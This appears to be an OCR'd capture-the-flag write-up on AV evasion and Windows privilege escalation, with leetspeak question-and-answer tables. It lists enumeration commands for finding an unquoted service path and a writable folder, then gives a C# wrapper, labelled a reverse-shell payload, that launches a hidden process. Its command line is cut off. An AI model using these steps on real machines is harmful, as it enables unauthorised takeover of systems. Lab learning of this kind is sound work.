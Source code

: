 
| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What output do you get when running the command : certutil.exe ? | CertUtil: -dump command completed successfully. |




## AV Evasion : Enumeration
> see the privilege of current user
```
whoami /priv
```
> see groups of current user
```
whoami /groups
```
> see the services 
```
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
```
> see the unquote service user account 
```
sc qc SystemExplorerHelpService
```
> see the path if it writeable
```
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
```
| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
|run `whoami /priv` One of the privileges on this list is very famous for being used in the PrintSpoofer and Potato series of privilege escalation exploits - which privilege is this ? | SeImpersonatePrivilege |
| Notice that one of the paths does not have quotation mark around it. What is the name of this service ? | SystemExplorerHelpService |
| Is the service running as the lcoal system account(Aye/Nay) ? | Aye |

## AV Evasion : Privilege Escalation

> script for automatic reverse shell ( Wrapper.cs )
```
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
            //Our code will go here!
            Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\te>
            procInfo.CreateNoWindow = true;
            proc.StartInfo = procInfo;
            proc.Start();
        }
    }
}


```
> Compile the above script to get a payload
```
mcs Wrapper.cs
```
